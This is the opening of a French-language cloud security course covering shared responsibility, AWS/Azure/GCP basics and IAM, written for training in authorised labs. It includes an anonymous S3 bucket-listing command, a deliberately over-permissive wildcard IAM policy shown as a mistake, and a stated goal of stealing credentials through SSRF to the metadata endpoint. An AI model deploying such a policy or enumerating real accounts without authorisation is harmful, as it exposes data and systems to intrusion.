# Présentation

Bienvenue au niveau 11 de CyberAcademy : **Cloud Security**. C'est l'avant-dernier étage de la roadmap (niveaux 0 → 11), le sommet technique après le pentesting (niveau 6), le red team (niveau 10) et l'Active Directory (niveau 9). Tu sais déjà pirater des applications web, des binaires, des domaines Windows. Il te manque la dernière frontière : **le cloud** — là où le monde entier migre ses serveurs, ses données et ses secrets.

**L'histoire de départ.** Tu es pentester certifié, sorti du niveau 10. Une société de conseil en cybersécurité vient de te recruter comme **cloud security engineer junior**. Premier jour : on te donne un compte de test sur un environnement AWS d'entraînement et la mission suivante : « Notre client migre tout vers le cloud et veut savoir où sont ses fuites avant que quelqu'un ne les trouve. Énumère, audite, exploite — mais uniquement dans le labo. » Tu réalises alors que le cloud n'est pas « des serveurs quelque part » : c'est un monde nouveau avec ses propres règles, ses propres erreurs et ses propres attaques. Ce cours te donne les clés.

**Un point important avant de commencer.** Le niveau 11 ne suppose rien sur le cloud. Les niveaux 0 à 10 t'ont appris le réseau, le web, Linux et l'exploitation : ces fondations restent indispensables (une faille SSRF est toujours une faille SSRF, un secret est toujours un secret). Mais le cloud introduit **de nouveaux concepts** (identités, politiques, métadonnées, conteneurs, orchestration) et **de nouveaux outils** (AWS CLI, Prowler, Pacu, kube-hunter, trivy). Chaque acronyme sera défini à sa première apparition, avec une analogie, et chaque commande citée est réelle et vérifiable.

## Pourquoi la sécurité cloud — le plus gros transfert d'infrastructure de l'histoire

Depuis 2010, le monde informatique vit une migration massive : les entreprises abandonnent leurs salles serveurs pour louer de la puissance de calcul, du stockage et des logiciels à des fournisseurs comme **AWS** (Amazon Web Services), **Azure** (Microsoft) et **GCP** (Google Cloud Platform). C'est aussi simple que ça de basculer ? Oui, techniquement. Mais chaque migration emporte avec elle ses **secrets** : bases de données clients, clés API, mots de passe, code source.

| Pourquoi ça change tout | Explication | Conséquence sécurité |
| ----------------------- | ----------- | -------------------- |
| **Tout est à distance** | Plus de périmètre physique : tes serveurs sont sur le réseau public du fournisseur | La moindre erreur de configuration est visible depuis Internet |
| **Tout se configure par API** | Chaque ressource (serveur, stockage, identité) est créée par une requête | Les erreurs se répètent à l'échelle : un script déploie 10 000 buckets mal configurés |
| **La configuration est la sécurité** | La sécurité ne dépend plus de ton câblage réseau mais de politiques écrites | Un `"*"` mal placé dans une politique = accès monde entier |
| **Les attaques changent de cible** | Les attaquants ne cherchent plus à pénétrer un réseau : ils cherchent des **identifiants** et des **misconfigurations** | 4 brèches cloud sur 5 commencent par un compte, une clé ou un bucket exposé |

**Analogie.** Dans une entreprise classique, la sécurité ressemble à un immeuble avec un seul hall d'entrée, des vigiles et des badges. Dans le cloud, c'est un immeuble dont **chaque appartement a sa propre porte donnant directement sur la rue** (Internet). La sécurité dépend de la qualité de chaque porte (politique IAM), de chaque fenêtre (bucket), et de la formation de chaque habitant (les développeurs). Un seul appartement mal fermé suffit.

### L'importance : le modèle de responsabilité partagée

Le concept le plus fondamental du cloud, celui qui explique 90 % des incidents, est le **modèle de responsabilité partagée** (shared responsibility model). Il répond à une question simple : **qui est responsable de la sécurité de quoi ?**

- Le **fournisseur cloud** (AWS, Azure, GCP) sécurise **le cloud** : les datacenters, les serveurs physiques, le réseau, l'hyperviseur, les services gérés.
- Le **client** (toi, ton entreprise) sécurise **dans le cloud** : les données, les configurations, les identités, les applications, les buckets, les bases de données, les mots de passe.

C'est là que naissent les brèches massives : **on croit que « c'est le cloud qui gère », mais le cloud ne gère pas ta bucket policy, ton mot de passe de base de données, ni ton stockage des clés API.** L'erreur de configuration, la donnée exposée, le secret oublié : tout cela est côté client. Et comme tout est accessible depuis Internet, l'erreur devient une brèche mondiale.

### Où c'est utilisé

| Domaine | Exemples concrets |
| ------- | ----------------- |
| **AWS** (Amazon Web Services) | Leader mondial : startups, Netflix, Airbnb, banques, administrations. Services : EC2, S3, Lambda, IAM, EKS |
| **Azure** (Microsoft) | Entreprises grandes et moyennes, intégration Office 365, Active Directory. Services : VMs, Blob Storage, Functions, AKS |
| **GCP** (Google Cloud Platform) | Données massives, machine learning, infrastructure Google. Services : Compute Engine, Cloud Storage, Cloud Functions, GKE |
| **Kubernetes** | L'« orchestration » de conteneurs, utilisé partout (y compris sur AWS/Azure/GCP) : EKS, AKS, GKE |
| **Serverless** | Fonctions à la demande (Lambda, Functions) sans serveur visible : APIs, traitements, bots |
| **Tout le monde** | Même les sites « classiques » reposent souvent sur un CDN, un stockage objet ou une base managée dans le cloud |

### Métiers concernés

| Métier | Rôle concret | Compétences de ce cours |
| ------ | ------------ | ----------------------- |
| **Cloud Security Engineer** | Conçoit et défend l'architecture cloud : IAM, durcissement, détection | Audit, hardening, détection, politique least privilege |
| **Pentester Cloud** | Teste les environnements cloud autorisés : misconfigurations, escalade de privilèges, SSRF | Énumération, exploitation, Prowler/Pacu/CloudFox |
| **DevSecOps** | Intègre la sécurité dans les pipelines CI/CD et les conteneurs | Scan d'images, SBOM, IaC, automatisation |
| **Security Architect** | Choisit les architectures et les outils de sécurité | Modèle de responsabilité partagée, threat modeling |
| **SOC Analyst / Incident Responder** | Détecte et répond aux incidents cloud | CloudTrail, GuardDuty, SIEM, forensics cloud |

### Prérequis

Pour suivre ce cours sereinement, tu dois avoir validé :

- **Niveau 6 — Pentesting Methodology** : méthodologie complète, scan, exploitation, reporting. Le pentest cloud suit le même cadre.
- **Niveau 10 — Red Team** : cycle complet d'attaque, opérations autorisées, discrétion. Les techniques cloud sont souvent du red team « à distance ».
- Les acquis web (niveaux 4-5) pour le **SSRF** (Server-Side Request Forgery), l'acquis réseau (niveau 2) pour comprendre le routage des VPC, l'acquis Linux (niveau 1) pour les commandes et les conteneurs, et l'acquis Python/Bash (niveau 3) pour automatiser.

> ⏱️ **Temps estimé : 22 heures** — soit 5 à 6 séances de 4 heures, avec les labos.
> 📊 **Niveau : 11** — douzième et avant-dernier maillon de la roadmap (niveaux 0 → 11). La validation de ce cours débloque la **certification de fin de parcours** et le badge final « Archi-Cyber » (voir section Gamification).

## Ce que tu vas construire

À la fin de ce cours, tu auras :

- une **vision complète du cloud** : les modèles de service, la responsabilité partagée, les fondamentaux AWS/Azure/GCP ;
- une **boîte à outils cloud réelle et vérifiée** : AWS CLI, Prowler, ScoutSuite, Pacu, CloudFox, kube-hunter, trivy, grype, kubectl, Docker ;
- une **méthodologie d'audit et de pentest cloud** : énumérer → auditer → exploiter → documenter ;
- **5 démonstrations, 2 laboratoires et 3 mini challenges résolus** (dont Flaws.cloud et un cluster minikube) ;
- le badge ☁️ Cloudbreaker et le déblocage de la **certification finale du parcours**.

> ⚠️ **Légal** — Ce cours t'apprend des techniques identiques à celles des attaquants : énumération de buckets, vol de credentials via les métadonnées, escalade IAM, scan Kubernetes. Elles ne doivent **jamais** être utilisées sur des clouds de production, des comptes réels ou des ressources que tu ne possèdes pas. Toute la partie pratique se déroule **exclusivement** sur des labos dédiés : comptes sandbox, plateformes d'entraînement (Flaws.cloud, Flaws2, CloudGoat), clusters locaux (minikube) et salles TryHackMe. Un compte AWS d'entreprise, même « de test », est hors périmètre sans autorisation écrite. Le cadre légal est le même qu'aux niveaux précédents : **seule l'autorisation distingue un pentester d'un attaquant**.

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Comprendre le modèle de responsabilité partagée** et savoir, pour chaque ressource, qui doit sécuriser quoi — et repérer une erreur classique (« le cloud gère tout »).
2. **Naviguer dans les fondamentaux AWS, Azure et GCP** : régions, zones de disponibilité, VPC, machines virtuelles, stockage, identités — avec les équivalences entre les trois fournisseurs.
3. **Énumérer et auditer une configuration cloud** avec les bons outils : AWS CLI, Prowler, ScoutSuite, CloudFox — et interpréter un rapport d'audit (un résultat « PASS » vs « FAIL » et ses conséquences).
4. **Identifier les misconfigurations courantes** : buckets S3 publics, politiques IAM trop larges, secrets exposés, RBAC Kubernetes laxiste, images non scannées — et savoir les corriger.
5. **Exploiter le SSRF vers les métadonnées cloud** (endpoint `169.254.169.254`) pour récupérer des credentials IAM temporaires, puis évaluer ce qu'elles permettent — uniquement en labo.
6. **Auditer et durcir Kubernetes et Docker** : architecture, RBAC, secrets, scan d'images avec kube-hunter et trivy, reconnaissance d'un container escape.
7. **Choisir et mettre en place des défenses** : CloudTrail, GuardDuty, CSPM, gestion des secrets, least privilege — et concevoir une politique IAM minimale.

---

## Vue d'ensemble

Voici la feuille de route de ce cours. Chaque module s'appuie sur le précédent : on construit d'abord les fondations (concepts), puis les compétences (outils), puis les attaques (SSRF, IAM, K8s), puis la défense, et on finit par la pratique en labo.



### Tableau des modules

| Module | Contenu | Heures |
| ------ | ------- | ------ |
| 1 | Modèles de service (IaaS/PaaS/SaaS), déploiement, responsabilité partagée | 2 h |
| 2 | AWS, Azure, GCP : régions, VPC, compute, stockage, IAM, CloudTrail | 4 h |
| 3 | IAM en profondeur : identités, politiques, roles, STS, erreurs classiques | 3 h |
| 4 | Misconfigurations de stockage, SSRF vers métadonnées | 3 h |
| 5 | Reconnaissance cloud, outils d'audit, escalade IAM | 3 h |
| 6 | Docker, Kubernetes : architecture, RBAC, secrets, attaques | 3 h |
| 7 | Serverless, supply chain/SBOM, secrets, détection et défense, labos | 2 h |
| 8 | Démonstrations, labos, mini challenges, quiz | 2 h |
| **Total** | | **22 h** |

---

## Théorie

> ⚠️ **Légal** — Toute la théorie de cette section est illustrée avec des exemples publics, des labos d'entraînement (Flaws.cloud, CloudGoat, minikube) ou des configurations que tu écris toi-même. Aucune commande n'est à lancer sur un environnement réel sans autorisation écrite.

---

### (a) Les modèles de service cloud : IaaS, PaaS, SaaS

#### Définition

Le cloud met à disposition des ressources informatiques **à la demande**, via Internet, facturées à l'usage. Selon le niveau d'abstraction (ce que le fournisseur gère à ta place), on parle de trois modèles de service :

- **IaaS** (Infrastructure as a Service) : on loue l'infrastructure brute — machines virtuelles, réseau, stockage. On gère tout le reste (OS, applis, données). Exemples : AWS EC2, Azure VMs, GCP Compute Engine.
- **PaaS** (Platform as a Service) : on loue une plateforme prête à l'emploi — base de données, runtime d'application, files d'attente. On gère seulement le code et les données. Exemples : AWS RDS, AWS Elastic Beanstalk, Azure App Service, GCP Cloud SQL.
- **SaaS** (Software as a Service) : on loue un logiciel complet, prêt à l'emploi. Exemples : Gmail, Office 365, Salesforce, Slack.

**Analogie.** L'IaaS, c'est louer un **terrain nu** : tu construis ta maison, tu poses la plomberie, tu entretiens tout. Le PaaS, c'est louer un **appartement meublé avec concierge** : tu apportes tes affaires (ton code), tout le reste est géré. Le SaaS, c'est **l'hôtel tout compris** : tu consommes, tu ne gères rien.

#### Pourquoi

Le modèle détermine **qui est responsable de quoi** (voir (b)) et donc **quelles sont tes obligations de sécurité**. Un client SaaS ne doit presque rien sécuriser ; un client IaaS doit sécuriser l'OS, les mises à jour, le pare-feu, les secrets. Choisir le bon modèle, c'est choisir la bonne répartition de l'effort de sécurité.

#### Historique

- **~2006** : AWS lance EC2 et S3, l'ère du cloud public moderne.
- **2008-2010** : Azure et GCP suivent ; le terme « cloud computing » se généralise.
- **2010-2020** : explosion du PaaS et du SaaS ; Kubernetes (2014) standardise l'orchestration de conteneurs.
- **2020+** : le cloud devient le mode par défaut des nouvelles applications ; la sécurité cloud devient un métier à part entière.

#### Fonctionnement

Le fournisseur gère des **datacenters** regroupés en **régions** (par ex. `eu-west-3` = Paris). Dans chaque région, des **zones de disponibilité** (AZ, Availability Zones) = datacenters isolés en cas de panne. Les ressources sont créées/détruites par **API** : derrière la console web, ce sont des requêtes HTTP authentifiées (via les clés IAM, voir (e)).

#### Architecture

| Modèle | Tu gères | Le fournisseur gère | Exemple |
| ------ | -------- | ------------------- | ------- |
| IaaS | OS, applis, données, config réseau | Serveurs physiques, hyperviseur, réseau de base | EC2, VM Azure |
| PaaS | Code, données, config service | OS, runtime, mises à jour, plateforme | RDS, App Service |
| SaaS | Données utilisateur (et encore…) | Tout le reste | Gmail, Office 365 |

#### Cas d'utilisation

- IaaS : reprise d'un serveur existant « à l'identique », besoins de contrôle total (réglementation), gros workloads legacy.
- PaaS : équipe développeur qui veut déployer vite sans gérer de serveur ; bases de données managées.
- SaaS : collaboration, messagerie, CRM, tout logiciel métier.

#### Exemple réel

Une startup web utilise **S3 + Lambda + RDS** (PaaS) pour son API, **EC2** (IaaS) pour un worker hérité, et **Office 365** (SaaS) pour ses emails. Trois modèles, trois niveaux de responsabilité : elle doit durcir l'EC2, configurer correctement les buckets S3, et seulement vérifier les bonnes pratiques de compte pour le SaaS.

#### Bonnes pratiques

- Choisir le modèle le plus **managé possible** quand c'est acceptable : moins tu gères, moins tu as de surface à sécuriser.
- Ne jamais croire qu'un service managé est « sécurisé par magie » : la config (IAM, buckets, données) reste ta responsabilité.
- Documenter, pour chaque ressource, **qui est responsable de quoi** (c'est le « shared responsibility matrix »).

#### Résumé

IaaS = terrain nu, PaaS = appartement meublé, SaaS = hôtel. Plus on monte dans l'abstraction, moins on gère — et moins on doit sécuriser. Mais les données et la configuration restent toujours de notre côté.

---

### (b) Le modèle de responsabilité partagée

#### Définition

Le **modèle de responsabilité partagée** est le contrat de sécurité implicite du cloud : la sécurité se partage entre le fournisseur et le client, avec une frontière précise selon le service (IaaS/PaaS/SaaS). « Shared responsibility » se traduit littéralement : responsabilité partagée.

**Analogie.** Dans un immeuble en copropriété : le syndic (le fournisseur) entretient la structure, le toit, la cage d'escalier et le hall. Chaque copropriétaire (le client) est responsable de l'intérieur de son appartement : la porte blindée (IAM), les fenêtres (buckets), ce qui traîne sur la table (secrets). Si quelqu'un laisse la porte ouverte, c'est la faute du copropriétaire, pas du syndic.

#### Pourquoi

C'est LA question du cloud : quand une brèche arrive, qui est fautif ? La réponse quasi systématique : **le client** (données exposées, config erronée, clés volées). Comprendre la frontière évite de faire deux erreurs symétriques : croire que « le cloud gère tout » (et tout exposer) ou croire que « rien n'est géré » (et sur-durcir inutilement).

#### Historique

AWS a formalisé ce modèle dès le début des années 2010 pour clarifier les responsabilités légales et techniques ; Azure et GCP ont des modèles équivalents. Il a été durci par les réglementations (RGPD, certifications ISO, SOC 2) qui imposent de documenter qui protège quoi.

#### Fonctionnement

La frontière varie selon le modèle de service :

| Élément de sécurité | IaaS (EC2) | PaaS (RDS) | SaaS (Office 365) |
| ------------------- | ---------- | ---------- | ----------------- |
| **Sécurité physique des datacenters** | Fournisseur | Fournisseur | Fournisseur |
| **Serveurs, hyperviseur, réseau physique** | Fournisseur | Fournisseur | Fournisseur |
| **OS, patches, pare-feu système** | **Client** | Fournisseur | Fournisseur |
| **Moteur de la base / runtime** | **Client** | Fournisseur | Fournisseur |
| **Configuration de la ressource (buckets, groupes, ports)** | **Client** | **Client** | Fournisseur |
| **Données, mots de passe, clés** | **Client** | **Client** | **Client** (et plus) |

Règle d'or : **la sécurité physique et l'infrastructure de base sont au fournisseur ; la configuration, les données, les identités et les accès sont au client.** Le client est presque toujours responsable de sa propre brèche.

#### Architecture

Le modèle s'illustre comme une pile : en bas, le fournisseur (matériel, réseau, hyperviseur) ; au-dessus, la couche de services (compute, stockage, base) ; et tout en haut, la couche client (config, IAM, données, applications). Chaque couche supérieure dépend de la sécurité de celle du dessous, mais **chacune reste responsable de sa propre étagère**.

#### Cas d'utilisation

Toute architecture cloud : avant de concevoir quoi que ce soit, on trace le « shared responsibility matrix » du projet pour savoir où mettre les contrôles de sécurité et les budgets.

#### Exemple réel

Une brèche classique : une entreprise laisse un **bucket S3 public** avec des documents clients. Réponse du responsable : « C'est AWS qui gère ! » → Faux : la **policy du bucket** est une configuration client. AWS sécurise l'infrastructure, pas la politique d'accès que le client a écrite (ou oubliée). C'est exactement ce qui s'est passé dans de nombreuses affaires publiques (voir section Cas réels).

#### Bonnes pratiques

- Pour chaque ressource du projet, noter dans un tableau « qui sécurise quoi ».
- Traiter **toutes les données** comme si le fournisseur ne faisait aucun contrôle : le chiffrement, l'accès, l'exposition sont ta responsabilité.
- Auditer régulièrement les configurations (outils CSPM, section (o)) : le fournisseur ne le fera jamais à ta place.

#### Résumé

Le fournisseur sécurise le cloud (infrastructure), le client sécurise dans le cloud (config, données, identités). La grande majorité des brèches viennent du côté client : une erreur de configuration est une porte ouverte sur Internet.

---

### (c) AWS fundamentals : régions, AZ, VPC, EC2, S3, IAM, Lambda, RDS, CloudTrail

#### Définition

**AWS** (Amazon Web Services) est le plus ancien et le plus utilisé des clouds publics. Il propose des centaines de services ; pour la sécurité cloud, il suffit d'en maîtriser une dizaine, qui forment le socle de toute architecture : régions/AZ, VPC, EC2, S3, IAM, Lambda, RDS et CloudTrail. **IAM** (Identity and Access Management) = gestion des identités et des accès (détaillé en (e)).

**Analogie.** AWS est une ville géante de services. Les **régions** sont les quartiers, les **AZ** (Availability Zones, zones de disponibilité) les immeubles du quartier, le **VPC** (Virtual Private Cloud) ton appartement privé dans la ville, EC2 tes pièces (machines), S3 tes greniers (stockage), IAM le portier qui décide qui entre dans quelle pièce, Lambda un robot qui exécute une tâche quand tu sonnes, RDS une bibliothèque gérée (base de données), et CloudTrail le journal qui enregistre qui a fait quoi.

#### Pourquoi

AWS est le standard de l'industrie : la plupart des offres d'emploi cloud sécurité citent AWS, les outils de pentest cloud (Prowler, Pacu, CloudFox) l'ont d'abord ciblé, et les autres fournisseurs (Azure, GCP) se comprennent facilement **par analogie** une fois AWS maîtrisé. C'est notre porte d'entrée.

#### Historique

2006 : lancement d'EC2 et S3. 2008 : mise en production officielle. 2011 : apparition de IAM. 2013 : formation du « AWS Marketplace » et du programme de sécurité. Aujourd'hui : leader mondial du cloud avec des dizaines de régions et des centaines de services. Les concepts datent de 2006 mais les failles de configuration qu'on étudie sont toujours d'actualité.

#### Fonctionnement

- **Régions** : zones géographiques indépendantes (ex. `us-east-1` Virginie, `eu-west-1` Irlande, `eu-west-3` Paris). La plupart des services sont créés **dans** une région.
- **Zones de disponibilité (AZ)** : plusieurs datacenters isolés au sein d'une région, interconnectés à faible latence. Résilience.
- **VPC** (Virtual Private Cloud) : ton réseau privé virtuel dans le cloud. Tu définis des plages d'adresses IP privées, des **subnets** (sous-réseaux), des tables de routage, des **Security Groups** (pare-feux de base, filtre au niveau des instances) et des **ACL réseau** (Network Access Control Lists, filtre au niveau du subnet).
- **EC2** (Elastic Compute Cloud) : machines virtuelles à la demande (instances), avec un **AMI** (Amazon Machine Image, image de base = modèle de disque), un type (CPU/RAM) et un **Security Group**.
- **S3** (Simple Storage Service) : stockage d'**objets** (fichiers) dans des **buckets** (seaux), accessible par HTTPS. Objets jusqu'à 5 To, versioning, chiffrement, politique d'accès.
- **IAM** : identités (utilisateurs, groupes, rôles), politiques (qui peut faire quoi sur quoi), clés d'accès.
- **Lambda** : exécution de fonctions serverless (code à la demande, sans serveur à gérer).
- **RDS** (Relational Database Service) : bases de données relationnelles managées (MySQL, PostgreSQL, etc.).
- **CloudTrail** : journalisation des **appels API** dans le compte — le journal d'audit de tout ce qui se passe.

#### Architecture



#### Cas d'utilisation

- EC2 : serveurs web, applications legacy, workloads Windows/Linux custom.
- S3 : fichiers statiques, sauvegardes, data lakes, logs, distribution via CloudFront (CDN).
- Lambda : APIs sans serveur, traitements événementiels, bots, automatisations.
- RDS : base de données relationnelle d'application sans gérer l'OS.
- CloudTrail : audit, réponse à incident, détection (avec GuardDuty).

#### Exemple réel

Une application web classique : un Load Balancer distribue le trafic vers des EC2 dans un subnet public ; les EC2 appellent une base RDS dans un subnet privé ; les fichiers utilisateurs partent dans un bucket S3 ; des Lambdas redimensionnent les images ; CloudTrail enregistre chaque `PutObject` et chaque `AssumeRole`. Un attaquant qui trouve une faille web sur un EC2 cherchera immédiatement deux choses : les **secrets** (clés, mots de passe) et l'accès aux **métadonnées** pour voler les credentials IAM de l'instance (voir (g)).

#### Bonnes pratiques

- Créer chaque ressource dans un VPC pensé (subnets publics vs privés, Security Groups restrictifs).
- Activer le **versioning** sur les buckets importants, chiffrer les données (KMS, Key Management Service = service de gestion des clés).
- Activer **CloudTrail dès le premier jour** dans le compte.
- **Least privilege** sur toutes les identités IAM.

#### Résumé

AWS = régions + AZ + VPC (réseau privé) + EC2 (machines) + S3 (stockage) + IAM (accès) + Lambda (code sans serveur) + RDS (base managée) + CloudTrail (journal). Toute architecture se raconte avec ces 8 briques.

---

### (d) Azure et GCP fundamentals : analogies avec AWS

#### Définition

**Azure** (Microsoft) et **GCP** (Google Cloud Platform) sont les deux autres grands clouds publics. Ils proposent les mêmes briques de base que AWS, avec des noms et des interfaces différents. Leurs services de sécurité se comprennent presque tous **par analogie** : si tu sais ce qu'est un VPC chez AWS, tu sais ce qu'est un VNet chez Azure ou un VPC chez GCP.

**Analogie.** C'est comme apprendre un deuxième ou troisième couple : on connaît les notes, il faut juste apprendre les paroles. AWS = « Virtual Private Cloud » ; Azure = « Virtual Network » ; GCP = « VPC » aussi. Même concept, vocabulaire différent.

#### Pourquoi

Le marché du travail et les migrations réelles sont **multi-cloud** : une entreprise a souvent AWS pour une partie, Azure pour la bureautique (Microsoft 365), GCP pour les données. Un cloud security engineer doit pouvoir auditer les trois, ou au minimum ne pas être perdu en passant de l'un à l'autre. L'objectif n'est pas de tout maîtriser, mais de **transposer** ses réflexes.

#### Historique

Azure naît en 2010 (remplace Windows Azure), GCP en 2008 (Google App Engine) puis Compute Engine en 2012. Les trois ont convergé vers les mêmes concepts (machines virtuelles, stockage objet, fonctions serverless, clusters Kubernetes gérés). La sécurité a suivi : les trois proposent désormais un « security center », un journal d'API et des outils de conformité.

#### Fonctionnement — tableaux d'équivalences

| Concept AWS | Azure | GCP | Rôle |
| ----------- | ----- | --- | ---- |
| Région / AZ | Region / Availability Zone | Region / Zone | Géographie et redondance |
| VPC | Virtual Network (VNet) | VPC | Réseau privé |
| Subnet | Subnet | Subnet | Découpage réseau |
| Security Group | Network Security Group (NSG) | VPC firewall rules | Pare-feu par ressource |
| EC2 | Virtual Machine (VM) | Compute Engine (VM) | Machine virtuelle |
| S3 | Blob Storage | Cloud Storage | Stockage objet |
| IAM (users/policies) | Microsoft Entra ID + RBAC (Azure RBAC) | Cloud IAM | Identités et accès |
| Lambda | Azure Functions | Cloud Functions | Serverless |
| RDS | Azure SQL Database / Managed Instance | Cloud SQL | Base relationnelle managée |
| CloudTrail | Activity Log / Microsoft Sentinel (logs) | Cloud Audit Logs | Journal des API |
| GuardDuty | Microsoft Defender for Cloud | Security Command Center | Détection de menaces |
| KMS / Secrets Manager | Azure Key Vault | Cloud KMS / Secret Manager | Gestion des secrets et clés |

#### Architecture

| Couche | AWS | Azure | GCP |
| ------ | --- | ----- | --- |
| Identité globale | IAM | Microsoft Entra ID (ex-Azure AD) | Cloud Identity |
| Autorisation par rôle | IAM roles | RBAC (Role-Based Access Control) | Cloud IAM roles |
| Journal d'API | CloudTrail | Activity Log | Cloud Audit Logs |
| Posture de sécurité | Security Hub + Config | Defender for Cloud | Security Command Center |

**À retenir** : Azure a deux niveaux — **Entra ID** pour les utilisateurs et **Azure RBAC** pour les autorisations sur les ressources ; GCP a **une** interface Cloud IAM unifiée. Et chez GCP, chaque ressource a une « policy » qui lie un membre (user, service account) à un « role » (rôle), souvent sur une hiérarchie (organisation → projet → ressource).

#### Cas d'utilisation

- Azure : entreprises Microsoft (Active Directory, Office 365, Windows Server), réglementation locale, hybride cloud/on-premise.
- GCP : data analytics (BigQuery), machine learning, startups Google, génomes, données massives.

#### Exemple réel

Même recherche de « bucket public » chez les trois : `aws s3 ls s3://bucket --no-sign-request` (AWS), `az storage container list --public-access ...` (Azure), `gsutil ls gs://bucket` (GCP). La technique est identique, le client est différent. Un auditeur cloud passe d'un fournisseur à l'autre en changeant de CLI, pas de méthodologie.

#### Bonnes pratiques

- Connaître parfaitement **un** fournisseur (recommandé : AWS), et garder le tableau d'équivalences sous la main pour les autres.
- Activer les **journaux d'API** (CloudTrail / Activity Log / Cloud Audit Logs) dans **tous** les comptes/projets.
- Utiliser les outils multi-cloud (Prowler gère AWS, Azure et GCP ; ScoutSuite aussi) pour auditer plusieurs fournisseurs avec une seule méthode.

#### Résumé

Azure = VNet, VM, Blob Storage, Functions, Defender for Cloud. GCP = VPC, Compute Engine, Cloud Storage, Cloud Functions, Security Command Center. Mêmes concepts que AWS, noms différents. L'analogie est le pont.

---

### (e) IAM en profondeur : users, groups, roles, policies, STS

#### Définition

**IAM** (Identity and Access Management) est le service qui régit **qui peut faire quoi sur quelles ressources**. Il repose sur quatre objets : les **identités** (users, groups, roles), les **politiques** (policies), les **clés** (credentials) et le service **STS** (Security Token Service) qui délivre les credentials temporaires. **STS** = Security Token Service, service qui émet des identifiants temporaires pour des rôles.

**Analogie.** IAM est le **système de badges de l'entreprise** : chaque employé (user) a un badge (clé) ; les badges appartiennent à des services (groups) ; certaines missions donnent un badge temporaire avec un accès précis (role via STS) ; le règlement intérieur (policy) dit quelles portes chaque badge peut ouvrir.

#### Pourquoi

Dans le cloud, **tout passe par les API**, et chaque API est autorisée ou refusée par IAM. La sécurité cloud EST principalement la sécurité IAM. Les erreurs IAM (politiques trop larges, roles trop permissifs, clés volées) sont la première cause d'escalade de privilèges et de brèches. Les comprendre, c'est comprendre comment un attaquant passe d'un simple accès à un accès total.

#### Historique

IAM apparaît sur AWS en 2011 (après EC2 et S3, qui géraient les accès en vrac). Il a évolué vers les **roles** (2012+), les **policies managées**, l'**OIDC** (OpenID Connect, protocole d'authentification déléguée) pour les clusters EKS, et le contrôle fin des sessions (permission boundaries). Azure et GCP ont suivi avec leurs propres implémentations.

#### Fonctionnement — les objets

| Objet | Définition | Analogie |
| ----- | ---------- | -------- |
| **User** | Identité durable (humain ou service), peut avoir des clés | L'employé avec sa carte |
| **Group** | Ensemble de users partageant les mêmes politiques | Le service (compta, dev) |
| **Role** | Identité sans mot de passe, assumée par quelqu'un d'autre, donne des credentials temporaires | La casquette « visiteur VIP » qu'on endosse |
| **Policy** | Document JSON qui autorise/refuse des actions sur des ressources | Le règlement des portes |
| **Principal** | L'entité qui fait la demande d'accès (user, role, service) | La personne qui présente son badge |
| **STS** | Service qui émet les credentials temporaires des roles | Le guichet qui délivre les badges temporaires |

Une **policy** AWS se présente ainsi :

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": ["s3:GetObject"],
      "Resource": ["arn:aws:s3:::acme-documents/*"]
    }
  ]
}
```

Elle dit : autorise l'action `s3:GetObject` (lire un objet) sur tous les objets du bucket `acme-documents`. Les deux règles d'interprétation : **les refus (Deny) explicites priment sur les autorisations (Allow)** ; sinon, une autorisation suffit.

- **ARN** (Amazon Resource Name) = l'identifiant unique d'une ressource, format `arn:aws:<service>:<région>:<compte>:<ressource>`.
- Une politique trop large contient `"Action": "*"` ou `"Resource": "*"` : **interdit tout** sauf nécessité absolue.

#### Architecture — comment une requête est évaluée



L'évaluation combine toutes les politiques attachées (à l'user, au group, au role, à la ressource) et les éventuelles « permission boundaries » (plafonds de permissions) ou **SCP** (Service Control Policies, politiques de contrôle au niveau de l'organisation AWS).

#### Cas d'utilisation

- Un **role** est assigné à une **instance EC2** (instance profile) : le code de l'instance reçoit des credentials temporaires via les métadonnées (voir (g)).
- Un **role** est assumé par un **utilisateur** via `sts:AssumeRole` pour passer d'un compte à l'autre ou d'un niveau de privilège à un autre.
- Un **group** « developers » porte une politique qui autorise uniquement `s3:PutObject` sur le bucket de développement.

#### Exemple réel (et erreur classique)

Une politique écrite « pour aller vite » :

```json
{
  "Version": "2012-10-17",
  "Statement": [
    { "Effect": "Allow", "Action": "*", "Resource": "*" }
  ]
}
```

Cette politique donne **tous les droits sur tout** (équivalent admin). Elle est détectée par Prowler (check `iam_policy_allows_privilege_escalation` ou la non-respect du principe de moindre privilège) et c'est le point de départ de la majorité des escalades IAM documentées par Rhino Security Labs (voir (i)).

#### Bonnes pratiques

- **Least privilege** (moindre privilège) : donner uniquement les actions nécessaires, sur les ressources nécessaires.
- Préférer les **roles** aux clés longues ; ne stocker jamais de clé longue en clair.
- Auditer avec `aws iam get-account-authorization-details` et Prowler.
- Utiliser les **policies managées** et les **permission boundaries** pour plafonner les roles.
